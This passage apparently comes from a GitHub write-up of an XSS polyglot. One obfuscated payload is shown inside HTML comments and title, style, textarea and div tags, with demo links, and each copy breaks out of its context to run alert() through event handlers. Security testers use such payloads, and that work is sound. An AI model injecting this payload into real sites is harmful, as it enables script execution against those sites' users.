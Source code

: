 _Demo: _[_https://jsbin.com/feziyi_](https://jsbin.com/feziyi)

* **HTML comments:**

```
<!--

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

-->
```

_Demo: _[_https://jsbin.com/taqizu_](https://jsbin.com/taqizu)

* **Arbitrary common HTML tags:**

```
<title>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</title>
```

_Demo: _[_https://jsbin.com/juzuvu_](https://jsbin.com/juzuvu)

```
<style>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</style>
```

_Demo: _[_https://jsbin.com/qonawa_](https://jsbin.com/qonawa)

```
<textarea>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</textarea>
```

_Demo: _[_https://jsbin.com/mecexo_](https://jsbin.com/mecexo)

```
<div>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</div>
```
